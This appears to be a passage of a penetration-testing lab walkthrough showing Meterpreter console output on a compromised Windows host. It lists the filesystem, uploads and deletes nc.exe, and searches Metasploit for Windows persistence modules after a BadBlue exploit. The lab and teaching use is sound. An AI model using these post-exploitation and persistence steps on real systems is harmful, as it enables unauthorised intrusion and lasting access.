 ```
40777/rwxrwxrwx   0          dir   2018-09-15 12:49:00 +0530  PerfLogs
40555/r-xr-xr-x   4096       dir   2018-09-15 12:49:00 +0530  Program Files
40777/rwxrwxrwx   4096       dir   2018-09-15 12:49:00 +0530  Program Files (x86)
40777/rwxrwxrwx   4096       dir   2018-09-15 12:49:00 +0530  ProgramData
40777/rwxrwxrwx   0          dir   2018-11-15 05:37:05 +0530  Recovery
40777/rwxrwxrwx   4096       dir   2020-10-27 10:42:39 +0530  System Volume Information
40555/r-xr-xr-x   4096       dir   2018-09-15 11:39:26 +0530  Users
40777/rwxrwxrwx   16384      dir   2018-09-15 11:39:26 +0530  Windows
100444/r--r--r--  408692     fil   2018-11-14 12:26:16 +0530  bootmgr
0000/---------    157763616  fif   1973-01-16 22:58:16 +0530  pagefile.sys

meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd Temp
meterpreter > pwd
C:\Temp
```

```
meterpreter > upload /usr/share/windows-binaries/nc.exe
[*] uploading  : /usr/share/windows-binaries/nc.exe -> nc.exe
[*] Uploaded 58.00 KiB of 58.00 KiB (100.0%): /usr/share/windows-binaries/nc.exe -> nc.exe
[*] uploaded   : /usr/share/windows-binaries/nc.exe -> nc.exe
meterpreter > pwd
C:\Temp
meterpreter > ls
Listing: C:\Temp
================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100777/rwxrwxrwx  59392  fil   2023-07-21 15:22:48 +0530  nc.exe

meterpreter > rm nc.exe
meterpreter > ls
No entries exist in C:\Temp
meterpreter > background
[*] Backgrounding session 1...
```

```
msf6 exploit(windows/http/badblue_passthru) > search persistence platform:windows

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   exploit/windows/local/persistence                     2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   1   exploit/windows/local/persistence_image_exec_options  2008-06-28       excellent  No     Windows Silent Process Exit Persistence
   2   exploit/windows/local/persistence_service             2018-10-20       excellent  No     Windows Persistent Service Installer
   3   exploit/windows/local/ps_wmi_exec                     2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
   4   exploit/windows/local/registry_persistence            2015-07-01       excellent  Yes    Windows Registry Only Persistence
   5   exploit/windows/local/s4u_persistence                 2013-01-02       excellent  No     Windows Manage User Level Persistent Payload Installer
   6   exploit/windows/local/vss_persistence                 2011-10-21       excellent  No     Persistent Payload in Windows Volume Shadow Copy
```